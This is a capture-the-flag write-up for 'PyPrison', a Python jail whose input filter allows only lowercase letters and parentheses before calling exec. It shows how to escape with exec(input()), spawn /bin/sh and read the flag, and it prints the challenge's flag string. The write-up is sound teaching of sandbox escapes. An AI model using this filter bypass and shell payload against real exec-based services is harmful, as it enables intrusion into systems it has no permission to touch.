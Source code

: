 # PyPrison - The Writeup
By: DJ Snowball#9853
## The Problem
In this problem, we are given two things. A file, main.py, and a server to connect to with netcat.

Connecting to the server, we are able to execute python with some restrictions. Our goal is to break out of this "prison" and get the flag.

## Understanding the Prison
The contents of main.py are as follows:
```py
while True:
  a = input(">>> ")
  assert all(n in "()abcdefghijklmnopqrstuvwxyz" for n in a)
  exec(a)
```

Breaking this down, we can understand the following:
1) The program is in an infinite loop
2) Each iteration of the loop, the program is...

    2a) Taking in some input

    2b) Checking if that input is a lowercase letter or parentheses, throwing an AssertionError if not

    2c) Running our input

## Getting A Shell
In python, an easy way to get a shell is as follows:
```py
import os
os.system("/bin/sh")
```

However, in our scenario, running this will not work.
For starters, our first line will throw an AssertionError due to it having a space.
Our second line, which has quotation marks and a forward slash won't fly either.

We need to find a way to run our code without directly typing it into the program.

## The Solution
The `exec` function is used by the program to run our code. What if we used that exec function ourselves?

The simplest form of the exec function takes in a string of code to run. Now, to input our code without raising an AssertionError, we can simply use the input() function.

Then, when we type in our input, we can type in whatever we want.

```py
>>> exec(input())
import os;os.system("/bin/sh")
```

The only input that the program got was `exec(input())`. After that, it ran the code, allowing us to type in whatever code we want. Now, we have a full shell.

```py
>>> exec(input())
import os;os.system("/bin/sh")
ls
chal
flag.txt

cat flag.txt
ictf{pyprison_more_like_python_as_a_service_12b19a09}
```

Running ls, we see that the file flag.txt exists. Looking at its file contents, we get our flag: ictf{pyprison_more_like_python_as_a_service_12b19a09}
